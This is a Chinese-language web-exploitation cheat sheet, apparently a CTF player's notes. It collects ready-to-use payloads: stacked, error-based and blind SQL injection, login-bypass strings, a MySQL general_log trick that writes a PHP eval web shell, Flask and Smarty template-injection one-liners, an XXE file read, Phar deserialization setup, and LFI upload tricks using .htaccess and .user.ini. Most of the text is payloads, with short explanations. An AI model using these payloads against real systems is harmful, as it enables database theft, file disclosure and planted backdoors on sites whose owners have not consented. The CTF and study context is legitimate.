


## SQL

### 堆叠注入

`phpPDO`,`mysqli_multi_query`存在堆叠注入

1. set&prepare

   ```sql
   SET @sqli=concat(char(115,101,108,101,99,116),'* from `1919810931114514`');PREPARE hacker from @sqli;EXECUTE hacker;
   ```

2. handler

   ```mysql
   handler FlagHere open;handler FlagHere read first;#
   ```

### 报错注入

`extractvalue`和`updatexml`等 `concat(0x7e,payload,0x7e)`报错回显

结合`limit`分页及`substr`截断回显

```mysql
select extractvalue(1, concat(0x7e, database(), 0x7e));
```

*最大回显长度为34,除去`~`x2，有效长度32

```mysql
select * from users where uid =1-a(); // 爆库名

 select name from test where id=1 and (select * from (select * from test as a join test as b) as c); // 爆字段

select name from test where id=1 and (select * from (select * from test as a join test as b using(id)) as c); // 爆第二个字段，以此类推。

select * from users where Polygon(uid); // 知道某字段爆表名、库名。
```

### 盲注

1. xor盲注

   ```mysql
   1^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),{0},1))>{1})
   1^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='tablename')),{0},1))>{1})
   1^(ord(substr((select(group_concat(columnname))from(tablename)),{0},1))>{1})
   ```

2. 时间盲注

   `order by`后可用`if`盲注

### 万能密码

```mysql
admin' or '1'='1
' UNION Select 1,1,1 FROM admin Where ''='
xxx'=' # username='xxx'='' → false=false
```

### 二次注入

存在修改密码此类功能，考虑update存在未过滤，将注入写入`username`

### 写入shell

```
show variables like '%general%';  #查看配置
set global general_log = on;  #开启general log模式
set global general_log_file = '/var/www/html/1.php';   #设置日志目录为shell地 址
select '<?php eval($_POST[cmd]);?>'  #写入shell
```

### mysql任意文件读

[mysql任意文件读](https://www.cnblogs.com/apossin/p/10127496.html)

## PHP

### disable_func

PHP 7.0-7.3:disable_func_bypass.txt

https://www.cnblogs.com/hookjoy/p/8988862.html

参数名字符串解析

开头空格自动删除，行内空格,[等自动转换为下划线，用于绕WAF（全局）

https://www.freebuf.com/articles/web/213359.html

### thinkphp

1. 6.0.0-6.0.1:session任意文件写

   https://paper.seebug.org/1114/

### %00截断

仅对`5.3`前版本有效

### 变量覆盖

`foreach` 配合 `$$`, 构造变量链实现任意变量覆盖

### SHELL

- 通过异或/取反，利用白名单字符构造shell

- 标签绕过

  ```
  <?=eval($_GET[1]);?>
  <script language="PHP">system($_GET[id])</script> // 7.0以下有效
  ```

### Phar反序列化

```php
<?php
class se{
    // xxx
}

$o = new se();
// xxx
echo serialize($o);

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
$phar->setMetadata($o); //将自定义meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
$phar->stopBuffering();
```

## 编码

### 宽字节

`%df`结合掉`\`，绕过非编译查询

### 扩展asc

输入扩展asc字符，python部分框架报错回显，结合debug模式等

### Unicode欺骗

大小写转换时考虑存在ᴬ等字符转换漏洞

多层编码之间的配合错误

如escapeshellarg+escapeshellcmd 存在单引号配对错误 参数逃逸

> 存在独立单引号’时，escapeshellarg先为’转义为'，后为'两端字符串添加成对单引号闭合 172.17.0.2' -v -d a=1 -> ‘172.17.0.2’\'' -v -d a=1'
>
> escapeshellcmd将\转义，单引号依次匹配，则末尾单引号被识别为未闭合
>
> ‘172.17.0.2’\'' -v -d a=1' -> ‘172.17.0.2’\\'' -v -d a=1\'

```
addslashes操作后续存在字符串替换，\逃逸用于转义'，改变闭合
```

SQL单引号过滤绕过同理：存在两个参数时，将前一个参数反引号转义，使后一参数逃逸

但是`;` `|`等字符会被转义，无法直接执行命令，需要尝试运用参数写入shell等

## SSTI

- flask SSTI

  ```python
      print(''.__class__.__base__.__subclasses__()[40/75/80].__init__.__globals__['__builtins__']['__import__']('os').__getattribute__('popen')('ls').read())
  ```

- smart SSTI

  ```
  {if readfile('/flag')}{/if}
    
  {{system('cat /flag')}}
  ```

## SSRF

### gopher

wireshark抓包，注意url编码

### PHP花式伪协议

[php伪协议](https://www.freebuf.com/column/148886.html)

### 花式绕过URL过滤

[SSRF绕过方法总结](https://www.secpulse.com/archives/65832.html)

## XSS

### CSP规则





### cookies

根据path排序 污染`csrf token`实现xss

## XXE

### DTD语法：

> 元素: <!ELEMENT element-name (element-content)>
>
> 属性: <!ATTLIST element-name attribute-name attribute-type attribute-value>
>
> 实体:
>
> 1. 内部实体 <!ENTITY entity-name “entity-value”>
>
> 2. 外部实体 <!ENTITY entity-name SYSTEM “URI/URL”>
>
> 3. 参数实体 <!ENTITY % entity-name “entity-value">
>
>    仅能在DTD中使用
>
> 通过`&entity-name;`引用实体
>
> PCDATA(解析): <!ELEMENT name (#PCDATA)>中 表示解析name子标签
>
> CDATA(非解析): <![CDATA[…]]> 字符数据
>
> ANY : 解析被定义的元素

| 实体引用 | 字符 |
| :------: | :--- |
|   &lt;   | <    |
|   &gt;   | >    |
|  &amp;   | &    |
|  &quot;  | "    |
|  &apos;  | '    |

### UTF-16绕WAF

### 长度限制时报错回显

```xml
<!DOCTYPE message[ 
  <!ELEMENT message ANY >
  <!ENTITY % NUMBER '<!ENTITY &#x25; file SYSTEM "file:///flag">
  <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///xxxxx/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%NUMBER;
]> 
```

## LFI

### 直接上传

- exif_imagetype：GIF89a图片马

- ```php
  <script language='pHp'>@eval($_REQUEST['cmd']);</script>
  <?= eval($_POST['cmd']);?> // 开启短标签
  ```

- mime.types花式后缀

- %00截断

### `/proc/self/environ`包含

修改UserAgent可将代码插入

### 日志文件包含

### 临时文件包含(`session`,`tmp`等)

结合phpinfo:查看临时文件路径,条件竞争

[PHP Local File Inclusion RCE with PHPINFO](https://github.com/vulhub/vulhub/tree/master/php/inclusion)

### fastcgi/apache 文件上传->.user.ini/.htaccess

> .user.ini: auto_prepend_file=xxx // 要求上传文件目录下存在php
>
> .htaccess:
>
> AddType application/x-httpd-php .jpg // jpg自动解析为php

htaccess中\可以作连接符绕过过滤

## 杂项

### 条件竞争

对权限检查不严格的身份认证相关变量操作，可能引发条件竞争

### TPP污染

结合php参数名花式解析->绕WAF

### HTTP走私

nodejs8-存在unicode绕过

```python
.replace('\n', '\r\n')
.replace('\r\n', '\u010d\u010a')
%xx->\u01xx
```

### 软链接（结合文件上传实现文件读）

### IP伪造

```
Client-Ip: 127.0.0.1
X-Forwarded-For: 127.0.0.1
Host: 127.0.0.1
Referer: www.google.com
```

## trick

1. shell中插入$x，未定义变量解析为空不影响shell执行，可以绕过WAF
2. (sy.(st).em)(ls)，($a[1].$a[2])，PHP日常动态解析
3. HTTPOXY漏洞，环境变量问题（HTTP_PROXY导致劫持代理）
4. NMAP `-oG`参数写入文件